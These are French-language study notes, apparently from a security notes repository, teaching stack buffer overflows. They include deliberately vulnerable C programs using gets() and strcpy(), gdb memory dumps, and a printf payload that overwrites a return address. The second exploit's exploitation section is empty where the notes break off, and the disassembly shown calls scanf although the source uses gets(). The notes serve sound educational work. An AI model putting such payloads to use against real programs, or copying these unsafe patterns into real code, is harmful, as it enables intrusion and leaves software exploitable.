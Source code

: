 https://insecure.org/stf/smashstack.html

![Pasted image 20240218103950.png](https://github.com/PavelSmerdiakov/Security-Notes/blob/main/Pasted%20image%2020240218103950.png)


#### **Théorie**

- Étant donné que la fonction gets ne vérifie pas la taille de l'input ni la taille du buffer à laquelle elle fait référence, on va pouvoir faire un stack overflow qui consiste à remplacer l'adresse de retour de la fonction dans laquelle elle est appelée par l'adresse qu'on veut.

#### **Pratique**

##### **Exploit 1 / Démonstration**

- **Code source :**
```C
#include <stdio.h>
void return_input();
int main(){
	return_input();
	return 0;
}
void return_input(void){
	char array[30];
	gets(array);
	printf("%s\n", array);
}
```

```nasm
Code asm de la fonction main
   0x0000555555555149 <+0>:     push   rbp
   0x000055555555514a <+1>:     mov    rbp,rsp
   0x000055555555514d <+4>:     mov    eax,0x0
   0x0000555555555152 <+9>:     call   0x55555555515e <return_input>
   0x0000555555555157 <+14>:    mov    eax,0x0
   0x000055555555515c <+19>:    pop    rbp
   0x000055555555515d <+20>:    ret
```

``` nasm
   Code asm de la fonction return_input
   0x000055555555515e <+0>:     push   rbp
   0x000055555555515f <+1>:     mov    rbp,rsp
   0x0000555555555162 <+4>:     sub    rsp,0x20
   0x0000555555555166 <+8>:     lea    rax,[rbp-0x20]
   0x000055555555516a <+12>:    mov    rsi,rax
   0x000055555555516d <+15>:    lea    rax,[rip+0xe90]        # 0x555555556004
   0x0000555555555174 <+22>:    mov    rdi,rax
   0x0000555555555177 <+25>:    mov    eax,0x0
   0x000055555555517c <+30>:    call   0x555555555040 <__isoc99_scanf@plt>
   0x0000555555555181 <+35>:    lea    rax,[rbp-0x20]
   0x0000555555555185 <+39>:    mov    rdi,rax
   0x0000555555555188 <+42>:    call   0x555555555030 <puts@plt>
   0x000055555555518d <+47>:    nop
   0x000055555555518e <+48>:    leave
   0x000055555555518f <+49>:    ret
```

- **Analyse du code source :**
	- Là on voit que array est un buffer de 30 char et qu'on a une influence sur cette variable grâce à gets().

- **Exploitation**
	- Dans gdb, on va mettre un breakpoint au moment de l'appel de la fonction gets() (ligne 10 du code asm de la fonction return_input) et au moment de l'instruction ret (ligne 16) de return_input afin d'analyser la mémoire avant et après notre input :
		- `b *0x000055555555517c`
		- `b *0x000055555555518f`
	- Au premier breakpoint, on check la mémoire autour de RSP pour voir où se trouve l'adresse de retour. Normalement, l'adresse qu'on cherche correspond à l'adresse juste après (dans notre cas) l'appel de la fonction où on se trouve. Pour nous ça devrais être l'adresse 0x0000555555555157 à la ligne 6 du code asm de main.
		- `x/20x $rsp`
```nasm
Mémoire de la stack
0x7fffffffda60: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe6780      0x00007fff
0x7fffffffda80: 0xffffda90      0x00007fff      0x55555157      0x00005555 <- ici
0x7fffffffda90: 0x00000001      0x00000000      0xf7def6ca      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x55555149      0x00005555
```
- 
	- Ensuite, on continue le programme et on entre une input de plus de 30 char. Ensuite, quand tu touche le 2ème breakpoint, tu réinspectes comment la mémoire autour de RSP a bougé.
		- `continue`
		- `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
		- `x/20x 0x7fffffffda60`
```nasm
Mémoire de la stack
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda80: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda90: 0x41414141      0x00004141      0xf7def6ca      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x55555149      0x00005555
```
- 
	- L'adresse de retour a bien été changée. On va maintenant recommencer et essayer de caler l'adresse de l'appel de la fonction return_input (0x0000555555555152) dans main à la place de l'adresse de retour de la stack. On va se servir de la fonction printf dans le shell pour envoyer l'input dans le programme :
		- `printf "AAAAAAAAAAAAAAAAAAAAAAAAAA\x52\x51\x55\x55\x55\x55\x00\x00" | ./programme`
		- On aurait aussi pu le faire comme ça : `./victim $(printf “foo”)`
	- Si tu as bien géré le placement de l'adresse de retour, tu devrais recevoir 2 fois l'output.

- **Conclusion**
	- On peut donc aller à n'importe quel endroit du script si on a une influence sur une adresse de retour. On pourrait très bien, dans un programme de connexion, aller directement à l'adresse de l'instruction qui s'occupe de nous connecter au programme. 


##### **Exploit 2 / Privilege Escalation**

- **Code source**
```C
int main(int argc,char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```
```nasm
Code asm de la fonction main
   0x0000555555555139 <+0>:     push   rbp
   0x000055555555513a <+1>:     mov    rbp,rsp
   0x000055555555513d <+4>:     sub    rsp,0x210
   0x0000555555555144 <+11>:    mov    DWORD PTR [rbp-0x204],edi
   0x000055555555514a <+17>:    mov    QWORD PTR [rbp-0x210],rsi
   0x0000555555555151 <+24>:    cmp    DWORD PTR [rbp-0x204],0x1
   0x0000555555555158 <+31>:    jle    0x55555555517a <main+65>
   0x000055555555515a <+33>:    mov    rax,QWORD PTR [rbp-0x210]
   0x0000555555555161 <+40>:    add    rax,0x8
   0x0000555555555165 <+44>:    mov    rdx,QWORD PTR [rax]
   0x0000555555555168 <+47>:    lea    rax,[rbp-0x200]
   0x000055555555516f <+54>:    mov    rsi,rdx
   0x0000555555555172 <+57>:    mov    rdi,rax
   0x0000555555555175 <+60>:    call   0x555555555030 <strcpy@plt>
   0x000055555555517a <+65>:    mov    eax,0x0
   0x000055555555517f <+70>:    leave
   0x0000555555555180 <+71>:    ret
```

- **Analyse du code source**
	- On voit dans le code C que notre arguments est passé dans un buffer avec une taille limitée grâce à la fonction strcpy qui ne fait pas gaffe à la mémoire.

- **Exploitation**
	- 
